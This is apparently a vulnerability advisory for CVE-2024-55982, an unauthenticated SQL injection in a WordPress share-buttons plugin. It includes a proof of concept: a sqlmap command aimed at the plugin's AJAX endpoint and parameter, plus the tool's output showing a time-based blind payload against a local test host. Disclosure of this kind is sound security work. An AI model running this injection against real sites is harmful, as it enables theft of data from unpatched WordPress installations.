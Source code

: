 # CVE-2024-55982
Share Buttons – Social Media <= 1.0.2 - Unauthenticated SQL Injection

# Description

The Share Buttons – Social Media plugin for WordPress is vulnerable to SQL Injection in versions up to, and including, 1.0.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: rich-web-share-button
- **Affected Version**: 1.0.2
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-55982
- **Status**: Closed

POC
---

```
python3 sqlmap.py -u 'http://kubernetes.docker.internal:8099/wp-admin/admin-ajax.php' --data='action=rich_web_share_count&foobar_1=1&foobar_2=fb' --level=3 --risk=3 --dbms='MySQL'
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12.2#dev}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:24:23 /2025-01-03/

[12:24:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: foobar_1 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=rich_web_share_count&foobar_1=1 AND (SELECT 1203 FROM (SELECT(SLEEP(5)))IYdy)&foobar_2=fb
---
[12:24:23] [INFO] testing MySQL
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[12:24:34] [INFO] confirming MySQL
[12:24:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[12:24:45] [INFO] adjusting time delay to 1 second due to good response times
[12:24:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.0


[*] ending @ 12:24:45 /2025-01-03/

```
